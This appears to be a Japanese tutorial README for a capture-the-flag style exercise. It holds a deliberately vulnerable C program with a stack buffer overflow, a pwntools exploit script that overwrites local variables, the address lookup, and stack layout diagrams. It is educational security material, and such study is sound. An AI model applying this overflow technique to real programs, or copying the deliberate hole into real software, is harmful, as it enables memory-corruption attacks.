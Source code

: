 # 概要
  - スタックバッファーオーバーフローを利用したローカル変数の書き換え

# 環境
### 動作環境
  - Ubuntu 22.04 LTS

### 環境構築

  ```
  $ pip3 install pwntools
  ```

# サンプルコード

### 対象ソースコード
  - sbof_lv    : 脆弱性を含む実行バイナリ
  - sbof_lv.c  : sbof_lvのソースコード
  - sbof_lv.py : エクスプロイトコード

### 実行方法

  ```
    $ stdbuf -o0 -e0 python3 ./sbof_lv.py
  ```

# サンプルコードの概要
### sbof_lv.c

  ```
  #include <stdio.h>
  #include <string.h>

  void main(void){
    char *priv = "user";
    unsigned key = 0xcafebabe;
    char secret[0x10] = "AAAA";
    char name[0x10] = {0};

    printf("Input Name >> ");
    fgets(name, 0x100, stdin);
    printf("\nname\t: %s\nsecret\t: %s\nkey\t: %x\npriv\t: %s\n", name, secret, key, priv);

    if(!strcmp(priv, "admin") &&
        !strcmp(secret, "H4cked!") &&
        key == 0xdeadbeef)
        puts("Correct!");
    else
        puts("Wrong...");
  }
  ```

  - priv="admin"、secret="H4cked!"、key=0xdeadbeef のとき、フラグが取れる。("Correct!" と表示される)

  ```
    if(!strcmp(priv, "admin") &&
        !strcmp(secret, "H4cked!") &&
        key == 0xdeadbeef)
        puts("Correct!");
    else
        puts("Wrong...");
  ```

  - 標準入力で、ローカル変数 name に書き込みしているが、name は 16 byteしかないため、
    16文字以上書き込みすると、スタックバッファーオーバーフローが発生する。

  ```
    char name[0x10] = {0};

    printf("Input Name >> ");
    fgets(name, 0x100, stdin);
  ```

### sbof_lv.py

  ```
  #!/usr/bin/env python3
  
  from pwn import *
  import sys
  import struct
  
  bin_file = './sbof_lv'
  
  def attack(conn, **kwargs):
  
      exploit  = b'a' * 0x10                           # nameへの書き込み
      exploit += b'H4cked!'.ljust(0x14, b'\x00')       # selectへの書き込み
      exploit += struct.pack('<I', 0xdeadbeef)         # keyへの書き込み
      exploit += struct.pack('<Q', 0x000000000040204b) # privへの書き込み
  
      conn.sendline(exploit)
  
      print(conn.recvall().decode())
  
  def main():
  
      conn = process(bin_file)
  
      attack(conn)
  
  if __name__=='__main__':
      main()
  ```

  - スタックバッファーオーバーフローを発生させるため、nameに'a'を16byte書き込む
  - selectに、文字列 "H4cked!" を書き込む
  - keyに0xdeadbeefを書き込む
  - privに "admin" を書き込む。
    文字列 "admin" は実行バイナリに含まれているため、"admin" のアドレスを調べて、このアドレスを書き込む。
    文字列 "admin" のアドレスは、下記のstringsコマンドの実行結果より、0x204bとなる。
    これは実行バイナリの先頭アドレスからのオフセットであり、
    実行バイナリのロード先は下記のreadelfコマンドの実行結果より、0x400000である。
    したがって、文字列 "admin" のアドレスは、0x40204bである。

  ```
  $ strings -t x  sbof_lv | grep admin
    204b admin
  ```
  ```
  $ readelf -l sbof_lv | grep LOAD
    LOAD           0x0000000000000000 0x0000000000400000 0x0000000000400000
    LOAD           0x0000000000001000 0x0000000000401000 0x0000000000401000
    LOAD           0x0000000000002000 0x0000000000402000 0x0000000000402000
    LOAD           0x0000000000002e10 0x0000000000403e10 0x0000000000403e10
  ```

### 実行結果
  - 下記の通り、期待通り、ローカル変数の書き換えができ、フラグをとれた（Correct!と表示された）

  ```
  $ stdbuf -o0 -e0 python3 ./sbof_lv.py
  [*] Checking for new versions of pwntools
      To disable this functionality, set the contents of /home/ubuntu/.cache/.pwntools-cache-3.10/update to 'never' (old way).
      Or add the following lines to ~/.pwn.conf or ~/.config/pwn.conf (or /etc/pwn.conf system-wide):
          [update]
          interval=never
  [*] A newer version of pwntools is available on pypi (4.13.1 --> 4.14.1).
      Update with: $ pip install -U pwntools
  [+] Starting local process './sbof_lv': pid 193507
  [+] Receiving all data: Done (100B)
  [*] Process './sbof_lv' stopped with exit code 9 (pid 193507)
  Input Name >>
  name    : aaaaaaaaaaaaaaaaH4cked!
  secret  : H4cked!
  key     : deadbeef
  priv    : admin
  Correct!
  ```

# 参考
### スタックメモリ配置（書き換え前）
  -0x30 - -0x21 : name  
  -0x20 - -0x11 : select  
  -0x10 - -0x0D : reserved  
  -0x0C - -0x09 : key  
  -0x08 - -0x01 : priv  
  +0x00 - +0x07 : saved rbp  
  +0x08 - +0x0F : return address  

### スタックメモリ配置（書き換え後）
  -0x30 - -0x21 : 'a' * 0x10  
  -0x20 - -0x11 : 'H4cked!' + '\x00'* 9  
  -0x10 - -0x0D : 0x00000000  
  -0x0C - -0x09 : 0xdeadbeef  
  -0x08 - -0x01 : 0x000000000040204b  
  +0x00 - +0x07 : saved rbp  
  +0x08 - +0x0F : return address  
